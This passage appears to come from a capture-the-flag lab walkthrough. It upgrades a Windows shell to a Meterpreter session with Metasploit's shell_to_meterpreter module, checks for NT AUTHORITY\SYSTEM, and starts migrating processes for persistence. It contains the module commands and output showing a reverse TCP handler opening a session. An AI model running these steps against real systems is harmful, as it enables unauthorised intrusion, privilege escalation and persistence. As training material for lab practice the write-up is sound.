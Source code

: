 #### Ans: SESSION

**Explanation:**  
The `SESSION` option is the one that you must set. This specifies the session ID of the shell that you want to convert into a Meterpreter session.

### Q3. Set the required option and run the module

You may need to list all active sessions to find the correct session ID for your shell. Once identified, set the session ID and run the module.

```bash
msf5 post(multi/manage/shell_to_meterpreter) > set SESSION 1
SESSION => 1
msf5 post(multi/manage/shell_to_meterpreter) > run
```

**Sample Output:**

```
[*] Upgrading session ID: 1
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 10.8.106.222:4433
[*] Post module execution completed
[*] Sending stage (176195 bytes) to 10.10.166.97
[*] Meterpreter session 2 opened (10.8.106.222:4433 -> 10.10.166.97:49303) at 2024-08-15 17:41:50 -0400
[*] Stopping exploit/multi/handler
```

### Q4. Verify and escalate privileges

After successfully converting to a Meterpreter session, you should verify that you've escalated privileges to `NT AUTHORITY\SYSTEM`.

```bash
msf5 post(multi/manage/shell_to_meterpreter) > sessions -i 2
[*] Starting interaction with 2...
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

**Explanation:**  
Running `getuid` confirms that you are now operating as `NT AUTHORITY\SYSTEM`, the highest privilege level on a Windows machine.

### Q5. Migrate to a stable process

Even though you have system-level privileges, the current process might not be stable. To ensure persistence, you should migrate to a more stable process running under `NT AUTHORITY\SYSTEM`.

```bash
meterpreter > ps
```

Identify a suitable process and migrate to it:
